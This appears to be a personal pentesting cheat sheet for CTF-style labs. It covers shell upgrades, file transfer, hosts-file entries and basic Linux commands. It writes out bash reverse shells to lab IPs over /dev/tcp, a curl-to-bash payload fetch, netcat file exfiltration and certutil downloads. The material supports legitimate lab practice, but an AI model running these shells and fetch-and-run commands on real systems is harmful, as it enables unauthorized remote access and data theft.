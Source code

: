 ## Shell


### bin/bash vs bin/shell
- at bin/shell only $ is shown
- at bin/bash the whole path is shown

### Bad Shells
- sudo -l for example dont delvier anything
- some stuff is not working well
- can happen when over exploits etc
- no tty present

#### Reasons for bad shells
- wrong shell architecture x86 vs x64
- wrong shell type (bash, sh, zsh, etc.)
- shell over exploit, includes, etc.

### Good Shells
- sudo -l delivers something
- maybe even tab completion
- print 
- meterpreter shells are also nice often

### Upgrade a shell
- metersploit can do it
- [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) sometimes didnt work
```sh
# when commands are restricted
ssh guest@192.254.1.12 -t "bash --noprofile" # --noprofile can work

#curl a shell
echo "/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.190/1338 0>&1'" > shell.sh
python3 -m http.server 8001
nc -lvnp 1338
curl 10.10.14.190:8001/shell.sh|bash

# phyton or phyton3 import pty
python -c 'import pty; pty.spawn("/bin/bash")'
#or 
echo os.system('/bin/bash') # or echo os.system('/bin/sh') 
#or
/bin/sh -i # or /bin/bash -i
```

### Transfer files
- httb, ftp, ssh, smb, scp, curl, wget, netcat etc
```sh
#http python server
python3 -m http.server 8000
wget http://yourip:8000/file

```
simple http put server to put from victim to attacker
- https://gist.github.com/fabiand/5628006
```sh
#windows to get a file from http server
certutil -urlcache -split -f "http://" outputfile

#curl or wget ftp or http
wget ftp:// 

#netcat
nc -l -p 1234 > out.file #receiving box
nc -w 3 [destination] 1234 < out.file #sending box destination is the ip of the receiving box

#scp
scp file user@ip:/path/to/file # sending
```

### Hosts File
echo to host file

```sh
cat

```sh
echo "10.129.108.117 thetoppers.htb" | sudo tee -a /etc/hosts
```

```sh
echo "10.129.251.52 dev.devvortex.htb" | sudo tee -a /etc/hosts
```

```sh
echo "10.129.1.27 ignition.htb" | sudo tee -a /etc/hosts
```

liste aller offenen Ports

```sh
-l: Display only listening sockets.
-t: Display TCP sockets.
-n: Do not try to resolve service names.

ss -tln

```
```sh
sudo netstat -tulnp
```

### Other Commands

#### whoami
```sh
whoami #print current user
```
#### uname
```sh
uname -a #print system information
```
#### get own ip
```sh
ip a | grep tun0 
```
#### ifconfig
```sh
ifconfig #print network information
```

#### pwd
```sh
pwd #print working directory
```

#### Differences between files
```sh
diff -y file1 file2
-y # side by side
```

#### SU & Sudo
```sh
su otheruser #switch user
sudo -l #list sudo rights
sudo su #switch to root
```

#### Locate
Suchen von Dateien
```sh
locate PowerUp.ps1
```

#### arp
```sh
arp -e # get machines the target has spoken to
```



## Reverse shells Server
- Kali contains a share folder with shell scrips
- Shell from the target to the attacker.
- possible to connect throught firewall

#### Some Reverse Shell generators / links
- [Pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [High on Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
- [Revshells](https://www.revshells.com/)

```sh
#create a listener for shell session
nc -nvlp 1337

#!/bin/bash
bash -i >& /dev/tcp/10.10.15.71/1337 0>&1

python3 -m http.server 8000
```
